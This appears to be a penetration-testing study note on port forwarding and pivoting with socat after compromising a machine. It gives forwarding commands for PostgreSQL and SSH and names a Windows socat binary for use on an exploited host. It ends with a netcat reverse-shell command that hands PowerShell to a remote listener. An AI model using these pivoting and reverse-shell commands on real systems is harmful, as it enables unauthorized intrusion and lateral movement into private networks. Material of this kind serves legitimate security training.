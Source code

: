 Port forwarding is a technique that let one machine "bridge" his connection between two networks. In a case where we want to access to the machine B (a database) that is connected to the machine A (a virtual machine) that is connected to the WAN, we want first to exploit and access the machine A in order to reach the second machine, routable only through the network in which there is the machine A.

# Using Socat
## Socat is a useful tool for Port Forwarding. Let's start it in verbose mode with

```shell
socat -ddd TCP-LISTEN:<KALI-PORT>,fork TCP:<TARGET-MACHINE>:<TARGET-PORT>
```

Next we will connect to it from the Kali VM with the PostgreSQL client that we have only on the Kali machine.

```shell
psql -h <TARGET-IP> -p <TARGET-PORT> -U postgres
```

For an SSH forwarding we can use

```shell
socat -ddd TCP-LISTEN:22,fork TCP:<TARGET-MACHINE>:2222
```

And then we can connect to it via

```shell
ssh user@<TARGET-IP> -p <TARGET-PORT>
```

An useful pre-compiled binary for Windows is [socat-1.7.3.0.exe](https://github.com/tech128/socat-1.7.3.0-windows/tree/master). It has to be run in the folder with all the DLL files. In this way we get a port forwarding from an exploited Windows machine to our Kali machine, and we can connect to the network the Windows machine is connected to.

```powershell
.\socat.exe TCP-LISTEN:2222, TCP:192.168.45.223:4444
```

An example of RevShell for this scenario is

```powershell
nc.exe <IP> 2222 -e powershell

